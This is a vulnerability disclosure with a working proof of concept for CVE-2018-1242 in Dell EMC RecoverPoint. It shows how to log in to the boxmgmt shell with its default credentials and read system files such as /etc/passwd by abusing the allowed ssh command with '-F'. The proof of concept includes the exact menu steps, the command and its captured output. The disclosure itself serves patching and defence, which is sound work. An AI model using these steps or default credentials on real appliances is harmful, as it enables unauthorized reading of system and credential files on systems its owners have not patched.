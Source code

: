 ## EMC RecoverPoint boxmgmt CLI arbitrary file read

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-05-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-multiple-dellemc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1242
- Exploit-db: https://www.exploit-db.com/exploits/44688/

## 1. Description
When logging in as boxmgmt and running an internal command, the ssh command may be used to display the contents of files from the file system which are accessible to the boxmgmt user.

## 2. Proof of Concept

- Log in as boxmgmt via SSH (default credentials boxmgmt/boxmgmt)
- Select `[3] Diagnostics`
- Select `[5] Run Internal Command`
- `ssh -F /etc/passwd 127.0.0.1`

```
test-cluster: 5
This is the list of commands you are allowed to use: ALAT NetDiag arp arping date ethtool kps.pl netstat ping ping6 ssh telnet top uptime
Enter internal command: ssh -F /etc/passwd 127.0.0.1
/etc/passwd: line 1: Bad configuration option: root:x:0:0:root:/root:/bin/tcsh
/etc/passwd: line 2: Bad configuration option: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
/etc/passwd: line 3: Bad configuration option: bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
/etc/passwd: terminating, 34 bad configuration options
Command "ssh -F /etc/passwd 127.0.0.1" exited with return code 65280.
```

## 3. Solution:

Update to latest version of RecoverPoint
